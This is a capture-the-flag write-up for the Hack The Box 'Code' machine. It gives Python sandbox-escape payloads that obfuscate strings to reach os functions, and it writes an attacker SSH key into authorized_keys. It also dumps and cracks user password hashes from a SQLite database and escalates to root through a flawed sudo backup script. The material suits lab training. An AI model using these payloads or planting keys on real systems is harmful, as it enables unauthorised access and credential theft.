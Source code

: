 # CTF Challenge: CODE HTB

## Initial Exploration

We notice that port **5000** is open with the **HTTP** protocol. When accessing it, we discover an online Python compiler. Our first attempt is to list the available classes using the following script:

```python
for i, cls in enumerate(''.__class__.__mro__[1].__subclasses__()):
    print(f"Index {i}: {cls.__name__}")
```

This script works and returns useful results.

---

## Creating an SSH Access

We observe that the user does not have a **.ssh** folder. We will create one to establish an SSH connection later.

### Creating the `.ssh` Folder

```python
b = (0).__class__.__base__.__subclasses__()[138].__init__.__globals__
i = b['__bui' + 'ltins__']
i['__im' + 'port__']('o'+'s').__getattribute__('make' + 'dirs')('/home/app-production/.ssh/')
```

### Adding Our Public SSH Key

```python
f = ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['__bui'+'ltins__']['op'+'en']('/home/app-production/.ssh/authorized_keys', 'w')
getattr(f, 'w'+'rite')('ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAa4YWMYFMgqwAKvvz4HsksklM78XxsjF6mGuwKcJOdpxhYBNNDyyh/WBGYI/zoEQCQBuZjjm+jgEJYsyNLOAt8= kali@kali')
getattr(f, 'clo'+'se')()
```

---

## Accessing the SQLite Database

We find hints in a configuration file indicating the presence of an **SQLite3** database.

### Locating the Database

```bash
app-production@code:~$ find / -name "database.db" 2>/dev/null
/home/app-production/app/instance/database.db
/home/app-production/instance/database.db
```

### Exploring the Database

```bash
app-production@code:~$ sqlite3 /home/app-production/app/instance/database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
```

#### Retrieving Available Tables

```sql
sqlite> .tables
code  user
```

#### Extracting Users and Passwords

```sql
sqlite> select * from user;
1|root|new_root_password
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|sojlen|202cb962ac59075b964b07152d234b70
```
We found MD5 hashed password, let's go crack that with Hashcat

<div align="center">
  <img src="https://github.com/iota4/write-up/images/Image1.png" alt="hashcat">
</div>

Thus, we obtain **Martin's** password.

---

## Privilege Escalation

After logging in as **Martin**, we execute:

```bash
martin@code:~$ sudo -l
```

We discover a script **/usr/bin/backy.sh** that can be executed with sudo.

### Content of `backy.sh`

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\.\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

We exploit a flaw in the script to execute arbitrary commands.

### Exploitation

We can use **tar** to extract sensitive content into `/home/martin/backup/`:

```bash
tar -xvf code
```

This grants us access to the necessary files to gain **root** access.

---

## Retrieving the Root Flag

By exploiting the script's vulnerability, we obtain **root** access, allowing us to read the **/root/root.txt** file.


